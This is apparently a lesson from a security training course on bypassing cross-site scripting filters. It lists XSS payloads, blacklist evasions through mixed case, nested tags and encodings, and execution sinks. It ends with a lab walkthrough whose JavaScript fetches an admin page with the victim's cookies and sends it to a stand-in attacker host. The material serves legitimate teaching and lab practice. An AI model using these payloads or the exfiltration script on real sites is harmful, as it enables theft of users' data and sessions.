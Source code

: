 # XSS Filter Bypasses

To conclude the module, we will discuss different types of XSS filters and how to bypass them.

## Achieving JavaScript Execution

Before discussing bypassing XSS filters, we will explore three ways to achieve JavaScript code execution.

### Script Tag

The most common (and obvious) method of achieving code execution is via the `script` tag; web browsers will execute any JavaScript code contained within it:

`<script>alert(1)</script>`

### Pseudo Protocols

We can use pseudo protocols such as `javascript` or `data` in certain HTML attributes that indicate where data is loaded from to achieve JavaScript code execution. For instance, we can set the target of an `a` tag to the `javascript` pseudo protocol and the corresponding JavaScript code is executed when the link is clicked:

`<a href="javascript:alert(1)">click</a>`

We can also create XSS payloads with pseudo protocols that do not require user interaction. For instance, using the `object` tag. The `data` pseudo protocol allows us to specify plain HTML code or base64-encoded HTML code:

`<object data="javascript:alert(1)">`
`<object data="data:text/html,<script>alert(1)</script>">`
`<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">`

### Event Handlers

Thirdly, we can use event handlers such as `onload` or `onerror` to specify JavaScript code that is executed when the event handler is triggered:

`<img src=x onerror=alert(1)>`
`<svg onload=alert(1)>`

There are many event handlers that we can use for this purpose. A good overview is provided by [PortSwigger's XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet).

## Bypassing Basic Blacklists

Suppose a web application implements a simple blacklist to block keywords that can lead to JavaScript code execution. For instance, by blocking HTML tags like the script tag, pseudo protocols like javascript and data, and event handlers like onload and onerror.

In these cases, we can try a few things to bypass a naive blacklist. For instance, the casing in HTML tags, pseudo protocols, and event handlers is irrelevant. More specifically, we can mix lowercase and uppercase letters to bypass blacklists that block only lowercase keywords:

`<ScRiPt>alert(1);</ScRiPt>`
`<object data="JaVaScRiPt:alert(1)">`
`<img src=x OnErRoR=alert(1)>`

Furthermore, if a naive blacklist strips all occurrences of the keyword `<script>` but is not applied recursively, we can bypass the filter with a payload similar to the following:

`<scr<script>ipt>alert(1);</scr<script>ipt>`

Lastly, if such a blacklist utilizes a regular expression that is weak and makes assumptions about the syntax of HTML tags or only blocks certain special characters, we might be able to bypass the blacklist by breaking these assumptions. For instance, if a blacklist expects a space before any event handler or an input field does not allow a space, the following payload may bypass the filter:

`<svg/onload=alert(1)>`
`<script/src="https://exploit.htb/exploit"></script>`

## Advanced Bypasses

Suppose we inject an HTML tag, resulting in JavaScript code execution. In that case, we may need to bypass additional filters applied to the JavaScript code, which restrict which functions we can call or which data we can access in the JavaScript context. There are many techniques we can apply to attempt to bypass such filters. We will explore how to bypass filters by encoding strings and passing these strings to execution sinks to execute the JavaScript code.

In JavaScript, we can apply many different encodings to strings that help us evade blacklists. Here are different encodings of the string "alert(1)":

```js
# Unicode
"\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029"

# Octal Encoding
"\141\154\145\162\164\50\61\51"

# Hex Encoding
"\x61\x6c\x65\x72\x74\x28\x31\x29"

# Base64 Encoding
atob("YWxlcnQoMSk=")
```
To supply our payload in a string, we need to be able to use quotes. If a filter removes or blocks quotes, we can use one of the following tricks to create a string containing our payload:

```js
# String.fromCharCode
String.fromCharCode(97,108,101,114,116,40,49,41)

# .source
/alert(1)/.source

# URL Encoding
decodeURI(/alert(%22xss%22)/.source)
```
Thus far, we have only managed to supply our payload in a string; however, the browser will only execute it if it is passed to an execution sink that takes a string as input. The most famous example of such an execution sink is the `eval` function; in addition to `eval`, other execution sinks include:

```js
eval("alert(1)")
setTimeout("alert(1)")
setInterval("alert(1)")
Function("alert(1)")()
[].constructor.constructor(alert(1))()
```
At last, we can combine an execution sink with an encoded string to attempt to bypass a weak XSS filter:

```js
eval("\141\154\145\162\164\50\61\51")
setTimeout(String.fromCharCode(97,108,101,114,116,40,49,41))
Function(atob("YWxlcnQoMSk="))()
```
Note: To bypass an XSS filter in the real-world, we can apply the same methodology used in bypassing filters for other vulnerabilities, such as SQL injection or command injection. The actual bypass depends on the filter implemented by the web application. It requires careful testing to identify which keywords are whitelisted or blacklisted to come up with an exploit that is not blocked.

## Resources

For more XSS filter bypasses, check out [OWASP's XSS Filter Evasion Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html). Furthermore, there are collections of XSS payloads for different types of filters. For instance, if we are unable to use any parentheses, we may refer to the [XSS without Parentheses payload collection](https://github.com/d3xus/xss-without-parentheses). Additionally, the [HTML 5 Security Cheatsheet](https://html5sec.org/) gives further browser-specific examples for XSS exploitation.

## XSS Filter Bypasses Questions

**Question 1: Bypass the XSS filter to exploit the XSS vulnerability to exfiltrate data the victim can access and find the flag.**

1.  Add the necessary vHosts to your `/etc/hosts` file:
    ```bash
    sudo sh -c 'echo "10.129.145.169 exploitserver.htb filterbypass.htb" >> /etc/hosts'
    ```
2.  Log in to the vulnerable site (`https://filterbypass.htb`) using the credentials `htb-stdnt:Academy_student!`.
3.  Submit your base XSS payload as a guestbook entry. To bypass the filter, use a mix of lowercase and uppercase letters:
    ```html
    <ScRiPt SrC="https://exploitserver.htb/exploit"></ScRiPt>
    ```
4.  On the exploit server (`https://exploitserver.htb`), craft a payload to exfiltrate the contents of the `/admin.php` endpoint:
    ```js
    var xhr = new XMLHttpRequest();
xhr.open('GET', 'https://filterbypass.htb/admin.php', false);
xhr.withCredentials = true;
xhr.send();

var exfil = new XMLHttpRequest();
exfil.open("GET", "https://PWNIP:PWNPO/exfil?r=" + btoa(xhr.responseText), false);
exfil.send();
    ```
5.  After the victim triggers the payload, decode the Base64 encoded response, while using `grep` to locate the flag.
